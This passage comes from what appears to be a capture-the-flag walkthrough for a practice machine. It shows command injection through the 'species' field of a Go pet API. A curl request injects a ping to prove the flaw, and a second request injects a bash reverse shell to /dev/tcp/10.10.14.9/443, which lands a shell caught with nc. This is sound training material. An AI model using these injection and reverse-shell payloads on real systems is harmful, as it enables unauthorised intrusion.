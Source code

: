 ![image-20220311102709002](https://0xdfimages.gitlab.io/img/image-20220311102709002.png)

### Command Injection POC

Command injection is the more useful exploit, so I’ll turn there. Given that I
know this line from the source:

    
    
    cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
    

I’ll try submitting a payload with `species` as `cat; ping -c 1 10.10.14.9`:

    
    
    oxdf@hacky$ curl -X POST http://pets.devzat.htb/api/pet -d '{ "name": "0xdf",  "species": "cat; ping -c 1 10.10.14.9" }' -H "'Content-Type': 'application/json'"
    Pet was added successfully
    

This will make the Go goes run:

    
    
    cmd := exec.Command("sh", "-c", "cat characteristics/cat; ping -c 1 10.10.14.9")
    

I’ll have `tcpdump` listening when I send that, and it gets an ICMP packet
back immediately:

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    14:25:55.580905 IP 10.10.11.118 > 10.10.14.9: ICMP echo request, id 2, seq 1, length 64
    14:25:55.580926 IP 10.10.14.9 > 10.10.11.118: ICMP echo reply, id 2, seq 1, length 64
    

### Shell

To convert this to a reverse shell, I’ll just change the `ping` to a [bash
reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

    
    
    oxdf@hacky$ curl -X POST http://pets.devzat.htb/api/pet -d '{ "name": "0xdf",  "species": "cat; bash -c \"bash -i >& /dev/tcp/10.10.14.9/443 0>&1\"" }' -H "'Content-Type': 'application/json'"
    

With `nc` listening, sending that just hangs. At `nc`, there’s a shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.11.118.
    Ncat: Connection from 10.10.11.118:51448.
    bash: cannot set terminal process group (865): Inappropriate ioctl for device
    bash: no job control in this shell
    patrick@devzat:~/pets$ 
    